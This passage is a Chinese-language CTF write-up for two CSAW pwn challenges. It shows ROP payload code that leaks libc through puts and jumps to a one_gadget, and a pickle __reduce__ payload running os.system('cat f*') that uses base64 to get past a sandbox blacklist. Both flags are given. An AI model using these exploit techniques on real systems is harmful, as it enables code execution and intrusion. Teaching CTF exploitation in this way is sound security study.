 ```python=
payload = padding + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.functions['main'].address)
```

leak 出 puts() 的 mem_addr 後，減去 puts() 在 libc 的 offset 得到 base  
再用 base + one_gadget 做 ROP  
為了 one_gadget 的 constrain payload 尾巴多放 0x45 個 '\x00'  
所以第2個 payload 長這樣  

```python=
payload = padding + p64(base + one_gadget) + b'\x00' * 0x45
```

細節在 [solution.py](./pwn/roppity/solution.py)  

> flag{r0p_4ft3r_r0p_4ft3R_r0p}  

### pwn 100: slithery
> Setting up a new coding environment for my data science students. Some of them are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you help test this before I use it for my class? Two sandboxes should be better than one...  
> nc pwn.chal.csaw.io 5011  
> file: sandbox.py  

這題其實 sanbox.py 會幫你 import numpy(可以 print RMbPOQHCzt 得知)  
numpy.load() 有反序列化的洞，是用 pickle.load 實作的  
再加上 sandbox.py 可以寫入 python code 執行...  

雖然有看到 blacklist，但是有 b64(HrjYMvtxwA)，所以...嘿嘿嘿  
這題利用 pickle.load 會先調用 \_\_reduce\_\_() 的特點  
埋 return os.system,('cat f*',) 進 class exploit，再用 pickle.dump()  
序列化之後以 b64 encode 就可以 bypass blacklist  
```python=
class exploit(object):
    def __reduce__(self):
        return os.system,('cat f*',)

kimji = pickle.dumps(exploit())
payload = 'RMbPOQHCzt.loads(HrjYMvtxwA(%s))' % base64.b64encode(kimji)
```
具體細節在 [solution.py](./pwn/slithery/solution.py)  

> flag{y4_sl1th3r3d_0ut}  
